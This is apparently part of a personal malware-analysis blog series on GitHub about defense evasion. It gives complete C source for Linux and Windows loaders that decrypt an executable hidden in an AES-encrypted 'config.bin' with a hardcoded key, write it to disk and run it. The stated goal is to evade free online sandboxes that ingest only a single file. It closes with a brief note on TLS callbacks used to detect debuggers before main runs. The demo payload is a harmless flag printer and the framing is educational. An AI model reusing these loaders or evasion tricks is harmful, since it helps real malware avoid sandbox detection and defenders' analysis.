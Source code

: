 # Malware Analysis Defense Evasion

Part 3 in the series. I am now interested in the first stages of the malware. How to load and get by initial defenses. This includes remaining inactive during sandboxing. It seems if you can get an inital execution by elevated privileges,
the rest of the code can be whatever.

The first example is adding a decrpytion of a config.bin file and demonstrated on both linux and windows.
Encryption is used to hide a exe in a config file. This additioanl file is another simple way to bypass most free online sandboxes. They typically only allow for an injest of a single file,
therefore its impossible to get the malware to actually be ran and discovered.

## For an elf


![Pasted image 20240501202559](https://github.com/dbissell6/DFIR/assets/50979196/4938c738-8651-4ded-ac7b-101a4a421a1c)


<details>

<summary>Code for the loader elf.</summary>

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>

int main() {
    system("openssl enc -d -aes-256-cbc -salt -pbkdf2 -in config.bin -out decrypted_flag_printer -k 0123456789ABCDEF0123456789ABCDEF");
    chmod("decrypted_flag_printer", 0755);  // Make the decrypted file executable
    system("./decrypted_flag_printer");  // Execute the decrypted file
    return 0;
}
                    
```

</details>


## For an exe 

The file that will be encrypted and hidden in the config.bin

![Pasted image 20240502223347](https://github.com/dbissell6/DFIR/assets/50979196/a6b74bd6-30f5-419b-bfc2-8d74a5c3fd66)

![Pasted image 20240502223415](https://github.com/dbissell6/DFIR/assets/50979196/66d39dfd-8abe-4a19-a02e-a048001a66f7)


<details>

<summary>Code for the loader exe.</summary>

```
#include <windows.h>
#include <bcrypt.h>
#include <stdio.h>

void HexStringToByteArray(const char* hexString, BYTE* byteArray, int byteArrayLength) {
    for (int i = 0; i < byteArrayLength; i++) {
        sscanf(hexString + 2 * i, "%2hhx", &byteArray[i]);
    }
}

BYTE* ReadEncryptedFile(char* filename, DWORD* read) {
    HANDLE hFile = CreateFileA(filename, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) return NULL;

    DWORD fileSize = GetFileSize(hFile, NULL);
    BYTE* buffer = (BYTE*)malloc(fileSize);

    if (!ReadFile(hFile, buffer, fileSize, read, NULL)) {
        CloseHandle(hFile);
        free(buffer);
        return NULL;
    }

    CloseHandle(hFile);
    return buffer;
}

void DecryptAndRun(BYTE* cipherText, DWORD cipherSize) {
    BCRYPT_ALG_HANDLE hAlg = NULL;
    BCRYPT_KEY_HANDLE hKey = NULL;
    NTSTATUS status = BCryptOpenAlgorithmProvider(&hAlg, BCRYPT_AES_ALGORITHM, NULL, 0);
    BYTE key[32]; // 256-bit key for AES-256
    BYTE iv[16];  // 128-bit IV for AES

    HexStringToByteArray("0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF", key, sizeof(key));
    HexStringToByteArray("0123456789ABCDEF0123456789ABCDEF", iv, sizeof(iv));

    if (status == ERROR_SUCCESS) {
        status = BCryptGenerateSymmetricKey(hAlg, &hKey, NULL, 0, key, sizeof(key), 0);
    }

    DWORD cbDataOut = cipherSize;
    if (status == ERROR_SUCCESS) {
        status = BCryptDecrypt(hKey, cipherText, cipherSize, NULL, iv, sizeof(iv), cipherText, cipherSize, &cbDataOut, BCRYPT_BLOCK_PADDING);
    }

    if (status == ERROR_SUCCESS) {
        // Write decrypted data to a temporary executable file
        char tempPath[MAX_PATH];
        GetCurrentDirectory(MAX_PATH, tempPath);
        strcat(tempPath, "tempExecutable.exe");
        FILE* fp = fopen(tempPath, "wb");
        if (fp != NULL) {
            fwrite(cipherText, 1, cbDataOut, fp);
            fclose(fp);
            // Execute the temporary executable file
            system(tempPath); // Consider using CreateProcess for better control over execution
        }
    } else {
        fprintf(stderr, "Decryption failed with status: 0x%x\n", status);
    }

    if (hKey) BCryptDestroyKey(hKey);
    if (hAlg) BCryptCloseAlgorithmProvider(hAlg, 0);
}

int main() {
    DWORD read;
    BYTE* encryptedData = ReadEncryptedFile("config.bin", &read);
    if (encryptedData != NULL) {
        DecryptAndRun(encryptedData, read);
        free(encryptedData);
    } else {
        fprintf(stderr, "Failed to load encrypted data\n");
    }
    return 0;
}
//x86_64-w64-mingw32-gcc -o final2.exe final2.c -lbcrypt
```

</details>


## TLS callbacks

Thread Local Storage, set up threads.

Execute before main is reached. This allows functionality to assess if debuggers are present before the main is ran.

In ida `CTRL + E`

![image](https://github.com/user-attachments/assets/f2cbe131-ef27-4fd2-a5ba-180e9888df44)




